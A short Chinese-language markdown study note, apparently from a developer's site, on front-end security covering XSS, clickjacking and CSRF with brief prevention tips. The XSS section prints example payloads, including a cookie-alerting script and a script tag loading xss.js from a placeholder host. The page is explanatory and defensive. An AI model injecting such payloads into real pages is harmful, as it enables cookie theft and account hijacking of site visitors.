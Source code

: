 ```yaml
---
slug: /secure 
title: 前端涉及到的安全
tags: ["xss", "点击劫持","pnpm"]
---
```


## XSS

> 跨站脚本注入攻击，通过向web插入Script脚本代码，当用户浏览界面时候，嵌入的脚本就会执行攻击用户。目前主要分为存储型、反射型、DOM型
```
<svg onload="alert(1)">
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```
### 预防
* 输入验证过滤
* 设置httpOnly
* 进行特殊转义
* 设置http头部 XSS-Protection


## 点击劫持
> 利用透明的覆盖层或者iframe来欺骗用户在不知情的情况下点击类似无害的按钮


### 预防
* HTTP X-Frame-Options 响应头设置DENY
* 代码里边判断是否界面在iframe中

## CSRF
> 伪造请求来利用互用已验证的状态喜爱发出非预期请求，可能进行支付、密码修改、删除数据

### 预防
* 提交使用SCRF Token
* 验证Referer头部
* 避免自动登录记住密码